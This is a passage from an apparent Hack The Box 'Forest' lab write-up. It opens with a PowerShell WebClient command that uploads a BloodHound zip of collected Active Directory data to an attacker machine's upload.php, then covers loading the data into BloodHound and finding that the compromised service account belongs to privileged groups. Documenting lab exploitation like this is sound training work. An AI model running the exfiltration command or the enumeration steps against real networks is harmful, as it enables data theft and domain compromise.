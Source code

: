 ```
[System.Net.WebClient]::new().UploadFile('http://10.10.14.83/upload.php', 'C:\Temp\20230727053545_BloodHound.zip')
```

- So now after transferring the zip file to our attack machine, we can then start our bloodhound
- we do `sudo neo4j console` to start our neo4j database
- then `sudo bloodhound --no-sandbox` and enter credentials
- then we upload the zip file to bloodhound and allow it to injest the files and all the JSON data retrieved
- we can search SVC-ALFRESCO@HTB.LOCAL right click the node and mark as owned
- we can view the node info to see what group memberships we have and other information, we will see that we are a part of the Account Operators group which is a privileged group and we are also part of the Remote Management Users Group

![](assets/Forest_assets/Pasted%20image%2020230805214351.png)

- we can find more information about the Account Operators group at [Active Directory security groups | Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#administrators)

![](assets/Forest_assets/Pasted%20image%2020230805214717.png)
